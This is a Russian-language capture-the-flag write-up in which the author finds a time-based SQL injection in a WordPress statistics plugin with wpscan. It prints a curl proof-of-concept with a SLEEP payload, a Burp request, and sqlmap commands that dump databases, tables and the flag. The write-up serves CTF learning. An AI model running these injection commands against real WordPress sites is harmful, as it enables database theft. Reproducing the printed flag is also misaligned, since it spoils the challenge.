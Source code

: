 # pentesters routine

В описании таска только `http://15.188.8.126`. Наличие протокола намекает, что нам не надо агресивно тыкать порты и нам хватит стандартного веба.

Переходим по ссылке и встречаем *очередной сайт на wordpress*.

![main](./images/main_page.PNG)

Сразу же запускаем `wp-scan` :

![wpscan](./images/wpscan.PNG)

В результате получаем информацию о наличии двух уязвимостей в плагине статистик.

![results](./images/plugin_vulns.PNG)

Начнем с time-based инъекции так как она занимает много времени. Изучив ссылки предложенные сканером находим PoC уязвимого запроса.
```bash
curl -X POST 'http://host/wp-json/wpstatistics/v1/hit' --data "wp_statistics_hit=x&wp_statistics_hit[track_all]=1&wp_statistics_hit[page_uri]=x&wp_statistics_hit[search_query]=x\' UNION ALL SELECT SLEEP(5)-- x
```
Эксплуатировать руками такую инъекцию никто конечно же не будет. Подготовим все что нужно для `sqlmap`. Продублируем этот запрос в `burp suite`(я предпочел убрать нагрузку из PoC чтобы никто не сошел с ума) и отправим в файл.

```
POST /wp-json/wpstatistics/v1/hit HTTP/1.1
Host: 15.188.8.126
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

wp_statistics_hit=x&wp_statistics_hit[track_all]=1&wp_statistics_hit[page_uri]=x&wp_statistics_hit[search_query]=x
``` 

Wordpress использует Mysql, нам известны техника и уязвимый параметр. Команда для `sqlmap` получается примерно такой:

` python2 sqlmap.py -r request.txt -p "wp_statistics_hit[search_query]" --technique=T --level=5 --risk=3 --dbms=mysql --dbs ` 

Убеждаемся в наличии уязвимости и получаем имена бд.

![sqli1](./images/sqli_poc.PNG)
![sqli2](./images/sqli_bd.PNG)

Разработчики таска не стали мучить нас многочасовым ожиданием и первая же таблица в базе `wordpress` - имеет говорящее название `flag`.

`python2 sqlmap.py -r request.txt -p "wp_statistics_hit[search_query]" --technique=T --level=5 --risk=3 --dbms=mysql -D wordpress --tables`

![sqli3](./images/sqli_table.PNG)

Достаем флаг:

`python2 sqlmap.py -r request.txt -p "wp_statistics_hit[search_query]" --technique=T --level=5 --risk=3 --dbms=mysql -D wordpress -T flag --dump`

![sqli4](./images/sqli_dump.PNG)

**Итого:** `MCTF{w0rdpr355_53curity_4h4h}`        



